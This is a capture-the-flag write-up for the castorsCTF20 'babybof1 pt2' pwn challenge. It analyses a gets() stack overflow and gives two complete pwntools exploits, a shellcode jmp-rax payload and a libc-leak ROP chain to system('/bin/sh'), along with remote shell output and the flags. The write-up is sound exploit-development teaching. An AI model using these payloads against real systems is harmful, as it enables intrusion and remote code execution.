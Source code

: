 # castorsCTF20

## babybof1 pt2

> 440
>
> Author: Lunga
>
> You should get a shell now!
>
> obs: Same binary as the babybof1, this is correct.
>
> obs2: ASLR is active on the server.
>
> `nc chals20.cybercastors.com 14425`
>
> [`babybof`](babybof)

Tags: _pwn_ _bof_ _x86-64_ _rop_ _shellcode_


## Summary

`gets` + shellcode.  _Hack like it's [1995](https://youtu.be/i8dh9gDzmz8)._


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations.  With RWX, assume shellcode.

    
### Decompile with Ghidra

```c
void main(void)

{
  char local_108 [256];
  
  puts("Welcome to the cybercastors Babybof");
  printf("Say your name: ");
  gets(local_108);
  return;
}
```

This was a two-part pwn, the first flag can be obtained by directing execution to `get_flag`.  The second requires getting a shell (you can get both flags with a shell).

For a shell, I tried two different solutions.  The first was to leak libc and then call `system`.  That worked locally, but not remotely.  This CTF was plagued with infrastructure problems, and the pwns had "buffering issues" (see below) that slowly got resolved--AFAIK, the game master only tested one-shot solutions.

From the Ghidra disassembly, `local_108` is `0x108` bytes above the return address:

```
                             undefined __stdcall main(void)
             undefined         AL:1               <RETURN>
             undefined1        Stack[-0x108]:1    local_108
```

Since `gets` is unbounded, just write `0x108` bytes then overwrite the return address with a gadget to jmp/call shell code.


## Exploit

### Solution 1

```python
#!/usr/bin/python3

from pwn import *

#p = process('./babybof')
p = remote('chals20.cybercastors.com', 14425)

binary = ELF('./babybof')
context.update(arch='amd64',os='linux')

jmp_rax = list(binary.search(asm('jmp rax')))[0]
print("jmp rax",hex(jmp_rax))

payload  = asm(shellcraft.sh()).ljust(0x108,b'A')
payload += p64(jmp_rax)

p.sendline(payload)
p.interactive()
```

After initial setup this code searches for `jmp rax` (`call rax` is fine too) within the binary.  Since no PIE, there's no need to leak the base process address.

_Why `jmp rax`?_

From GDB: Set a breakpoint at `ret` (`b *main+62`), run, and input `AAAABBBBCCCCDDDD`, then you'll notice that `$rax` is set to the address of `local_108`:

```
$rax   : 0x00007fffffffe450  →  "AAAABBBBCCCCDDDD"
$rbx   : 0x0
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffe558  →  0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
$rbp   : 0x0000000000400790  →  <__libc_csu_init+0> push r15
$rsi   : 0x4342424242414141 ("AAABBBBC"?)
$rdi   : 0x00007fffffffe451  →  "AAABBBBCCCCDDDD"
$rip   : 0x000000000040078b  →  <main+62> ret
$r8    : 0x0000000000602681  →  0x0000000000000000
$r9    : 0x00007ffff7fd64c0  →  0x00007ffff7fd64c0  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246
$r12   : 0x0000000000400600  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffe630  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
```

The rest of the code builds a payload from the pwntools shellcraft supplied shellcode and then pads that out to `0x108` bytes.

Output:

```
# ./exploit.py
[+] Opening connection to chals20.cybercastors.com on port 14425: Done
[*] '/pwd/datajerk/castorsctf20/babybof1_pt2/babybof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
jmp rax 0x400661
[*] Switching to interactive mode
$ ls
babybof
flag.txt
shell_flag.txt
$ cat flag.txt
castorsCTF{th4t's_c00l_but_c4n_y0u_g3t_4_sh3ll_n0w?}
$ cat shell_flag.txt
castorsCTF{w0w_U_jU5t_h4ck3d_th15!!1_c4ll_th3_c0p5!11}
```


### Solution 2

```python
#!/usr/bin/python3

from pwn import *

#p = process('./babybof')
p = remote('localhost', 9999)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#p = remote('chals20.cybercastors.com', 14425)
#libc = ELF('libc-database/db/libc6_2.31-0ubuntu9_amd64.so')

'''
# libc-database/find puts 5a0
http://http.us.debian.org/debian/pool/main/g/glibc/libc6_2.30-4_i386.deb (id libc6_2.30-4_i386)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.31-0ubuntu9_amd64.deb (id libc6_2.31-0ubuntu9_amd64)
'''

binary = ELF('./babybof')

context.update(arch='amd64')
rop = ROP('babybof')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Say your name: ')
payload  = 0x108 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])
p.sendline(payload)

_ = p.recvline().strip()
_ = p.recvline().strip()
puts = u64(_ + 2*b'\x00')
print('puts:',hex(puts))
baselibc = puts - libc.symbols['puts']
print('baselibc:',hex(baselibc))

p.recvuntil('Say your name: ')
payload  = 0x108 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b'/bin/sh')))
payload += p64(baselibc + libc.symbols['system'])
p.sendline(payload)

p.interactive()
```

This is normally how I solve many of these problems; usually NX is enabled, and I have so many of these examples laying around it's an easy C&P job.

> See [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for a lengthy description of how the above code works.

> This did not work until much later in the competition when the "buffering issues" were corrected.  Others reported on this as well.


#### Tip: Hosting the binary yourself:

```
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:$PWD/babybof,pty,stderr,setsid,sigint,sane,rawer
```

While I was waiting for the "buffering issues" to be corrected I self-hosted the binary using the above to do the exploit development.  The first part of the exploit did work (the leak), however it was not possible to coordinate the second part until later in the CTF.

> I got tired of waiting, so ended up with the shellcode solution.


#### My $0.02 US

IMHO, the "buffering issue" was a non-issue.  i.e., it was solvable with shellcode without any corrective action.  It was annoying, in that this CTF pwn did not behave like others, but then you just have to find a different solution.  The game masters could have stood their ground, and this isn't the only CTF were I have had this problem (you've seen them to, any where you `nc` to the port and nothing is output, no prompt, nothing.  However, the local binary outputs immediately), while this can make exploit development difficult, it does not make it impossible, just different.

